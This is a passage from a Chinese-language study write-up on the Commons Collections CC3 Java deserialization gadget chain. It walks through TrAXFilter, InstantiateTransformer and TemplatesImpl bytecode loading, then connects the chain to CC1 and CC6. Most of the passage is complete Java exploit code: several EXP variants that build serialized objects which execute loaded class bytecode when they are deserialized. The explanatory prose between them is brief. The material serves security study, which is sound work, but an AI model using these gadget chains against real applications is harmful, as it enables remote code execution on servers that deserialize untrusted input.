

找到了 TrAXFilter类的构造方法

```java
public TrAXFilter(Templates templates)  throws
        TransformerConfigurationException
    {
        _templates = templates;
        _transformer = (TransformerImpl) templates.newTransformer();
        _transformerHandler = new TransformerHandlerImpl(_transformer);
        _useServicesMechanism = _transformer.useServicesMechnism();
    }
```

公开属性的构造方法，那我们如果实例化一个对象就能调用到这个构造方法，并且这里templates就是我们传入的参数

```java
package CC3;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;

import javax.xml.transform.Templates;
import javax.xml.transform.TransformerConfigurationException;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class CC3 {
    public static void main(String[] args) throws ClassNotFoundException, InstantiationException, IllegalAccessException, NoSuchFieldException, IOException, TransformerConfigurationException, NoSuchMethodException {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");

        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\CC1\\target\\classes\\CC3\\URLClassLoader_test.class"));
        byte[][] codes = {code};
        setFieldValue(templates,"_bytecodes",codes);

        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        new TrAXFilter(templates);

    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
}
```

到这其实就分析的差不多了，但是我们此时链子尚不完整，需要找到能代替实例化TrAXFilter的方法，CC3的作者并没有使用CC1的InvokerTransformer的transform而是用了InstantiateTransformer::transform()。

### InstantiateTransformer#transform()



完美契合我们的要求，这里可以获取构造器并调用构造函数，简直不要太爽

我们看一下该类的构造函数

```java
    public InstantiateTransformer(Class[] paramTypes, Object[] args) {
        super();
        iParamTypes = paramTypes;
        iArgs = args;
    }
```

这里的话我们传入`new Class[]{Templates.class}` 与 `new Object[]{templates}` 就可以了

然后我们来构造EXP

```java
package CC3;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import javax.xml.transform.TransformerConfigurationException;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class CC3 {
    public static void main(String[] args) throws ClassNotFoundException, InstantiationException, IllegalAccessException, NoSuchFieldException, IOException, TransformerConfigurationException, NoSuchMethodException {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");

        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\CC1\\target\\classes\\CC3\\URLClassLoader_test.class"));
        byte[][] codes = {code};
        setFieldValue(templates,"_bytecodes",codes);

        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
        instantiateTransformer.transform(TrAXFilter.class);

    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
}
```

然后我们就可以找一下怎么触发transform方法了，这貌似可以跟CC1和CC6挂上关系

## 0x05接入CC1

从上面可以看到，我们此时链子尚不完整，还是需要回到最终的readObject中，这时候就需要接壤一下CC1的后半段了，也就是我们的

ChainedTransformer方法

```java
package CC3;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import javax.xml.transform.TransformerConfigurationException;
import java.io.*;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC3 {
    public static void main(String[] args) throws ClassNotFoundException, InstantiationException, IllegalAccessException, NoSuchFieldException, IOException, TransformerConfigurationException, NoSuchMethodException, InvocationTargetException, InvocationTargetException {
        TemplatesImpl templates = new TemplatesImpl();
        
        //给_name进行赋值
        setFieldValue(templates,"_name","a");
        
        //给_bytecodes赋值
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\CC1\\target\\classes\\CC3\\URLClassLoader_test.class"));
        byte[][] codes = {code};
        setFieldValue(templates,"_bytecodes",codes);
        
        //反射修改类的属性_tfactory
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
//        templates.newTransformer();

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
//        instantiateTransformer.transform(TrAXFilter.class);
        
        //LazyMap触发transform方法CC1后半段
        HashMap<Object, Object> map = new HashMap<>();
        Map decorateMap = LazyMap.decorate(map, instantiateTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = c.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Override.class, decorateMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);
        Object o = (InvocationHandler) construct.newInstance(Override.class, proxyMap);
        serialize(o);
        unserialize("CC3.txt");

    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object object) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CC3.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```

但是出现了一个报错

```
Exception in thread "main" org.apache.commons.collections.FunctorException: InstantiateTransformer: Input object was not an instanceof Class, it was a java.lang.String
	at org.apache.commons.collections.functors.InstantiateTransformer.transform(InstantiateTransformer.java:101)
	at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:158)
	at sun.reflect.annotation.AnnotationInvocationHandler.invoke(Unknown Source)
	at com.sun.proxy.$Proxy1.entrySet(Unknown Source)
	at sun.reflect.annotation.AnnotationInvocationHandler.readObject(Unknown Source)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(Unknown Source)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(Unknown Source)
```

意思就是说InstantiateTransformer我们传入的是一个字符串而不是一个类对象，后面发现是CC1中的setValue()的问题，`setValue()` 的传参无法控制，需要引入 `Transformer` 与 `ChainedTransformer` 加以辅助。



### EXP1(instantiateTransformer#transform())

```java
package POC.CC3;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.TransformedMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC3 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();

        //反射改变类的属性_name
        setFieldValue(templates,"_name","a");

        //反射改变类的属性_bytecodes
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\CC1\\target\\classes\\POC\\CC3\\POC.class"));
        byte[][] codes = {code};
        setFieldValue(templates,"_bytecodes",codes);

        //反射改变类的属性_tfactoury
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
//        templates.newTransformer();

//        instantiateTransformer.transform(TrAXFilter.class);
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        //Map类的构建和修饰
        HashMap<Object, Object> map = new HashMap<>();
        map.put("value","aaa");
        Map<Object,Object> transformermap = TransformedMap.decorate(map,null,chainedTransformer);

        //遍历Map，触发链子
        Class A = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = A.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(Target.class,transformermap);
        serialize(o);
        unserialize("CC3.txt");
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object object) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CC3.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```





这个链子的话是通过触发instantiateTransformer.transform()方法来的，当然也可以不用这个transform()而用IvokerTransform去直接触发

### EXP2（直接触发newTransformer）

```java
package POC.CC3;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC3 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();

        //反射改变类的属性_name
        setFieldValue(templates,"_name","a");

        //反射改变类的属性_bytecodes
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\CC1\\target\\classes\\POC\\CC3\\POC.class"));
        byte[][] codes = {code};
        setFieldValue(templates,"_bytecodes",codes);

        //反射改变类的属性_tfactoury
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
//        templates.newTransformer();
        
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer",null,null)
        };
        ChainedTransformer chainedTransformer =  new ChainedTransformer(transformers);

        //Map类的构建与修饰
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","aaa");
        Map outmap = TransformedMap.decorate(map,null,chainedTransformer);

        //遍历map，触发链子
        Class handler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructorhandler = handler.getDeclaredConstructor(Class.class, Map.class);
        constructorhandler.setAccessible(true);
        Object obj = constructorhandler.newInstance(Target.class,outmap);
        serialize(obj);
        unserialize("CC3.txt");
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object object) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CC3.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```


## 0x06接入CC6

### 接入CC6的EXP2

```java
package CC3;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import javax.xml.transform.TransformerConfigurationException;
import java.io.*;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC3 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");

        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\CC1\\target\\classes\\CC3\\URLClassLoader_test.class"));
        byte[][] codes = {code};
        setFieldValue(templates,"_bytecodes",codes);

        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
//        templates.newTransformer();

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
//        instantiateTransformer.transform(TrAXFilter.class);
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map<Object,Object> lazyMap = LazyMap.decorate(new HashMap<>(),new ConstantTransformer("1"));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"2");
        HashMap<Object,Object> hashmap = new HashMap<>();
        hashmap.put(tiedMapEntry, "3");
        lazyMap.remove("2");

        //反射修改值
        Class<LazyMap> lazyMapClass = LazyMap.class;
        Field factory = lazyMapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        factory.set(lazyMap, chainedTransformer);

        serialize(hashmap);
        unserialize("CC3.txt");
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object object) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("CC3.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws IOException, ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```



## 小结

到此为止已经分析完了CC1，CC3，CC6，不过不得不说CC3是一种绕过Runtime的好办法

贴一张链子总结的图https://drun1baby.top/2022/06/20/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8704-CC3%E9%93%BE/ALLCC.png


